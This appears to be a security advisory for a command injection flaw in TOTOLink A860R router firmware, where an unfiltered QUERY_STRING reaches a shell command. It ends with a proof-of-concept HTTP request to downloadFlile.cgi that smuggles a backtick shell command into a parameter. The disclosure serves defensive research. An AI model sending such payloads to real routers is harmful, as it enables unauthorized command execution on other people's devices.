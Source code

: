 # TOTOLink A860R V4.1.2cu.5182_B20201027 Has an command injection vulnerability

## Overview

- **Type**: command injection vulnerability
- **Vendor**: TOTOLINK (https://www.totolink.net/)
- **Products**: WiFi Router, such as A860R V4.1.2cu.5182_B20201027
- **Firmware download address:** http://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=62&ids=36



## Description

### 1.Product Information:

TOTOLink A860R V4.1.2cu.5182_B20201027 router, the latest version of simulation overview：

![Figure 1 Update date of the latest version of the firmware](images/image-20220213010230804.png)

The latest version on the official website)

### 2. Vulnerability details

![image-20220213010452255](images/image-20220213010452255.png)

TOTOLINK A860R V4.1.2cu.5182_B20201027 was discovered to contain a command injection vulnerability in the "Main" function. This vulnerability allows attackers to execute arbitrary commands via the QUERY_STRING parameter.

![Figure 2 Local of the vulnerability](images/image-20220212024252932.png)

We can see that the os will get ` QUERY_STRING`  without filter splice to the string `echo QUERY_STRING:%s >/tmp/download` and execute it. So, If  we can control the `QUERY_STRING`, it can be command injection.

## 3. Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```
GET /cgi-bin/downloadFlile.cgi?payload=`ls>../1.txt` HTTP/1.1 
Host: 192.168.111.12 
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8 Accept-Language: en-US,en;q=0.5 
Accept-Encoding: gzip, deflate 
Connection: keep-alive 
Upgrade-Insecure-Requests: 1 
Cache-Control: max-age=0
```

![Figure 3 POC attack effect](images/22.png)

![Figure 4 POC attack effect](images/33.png)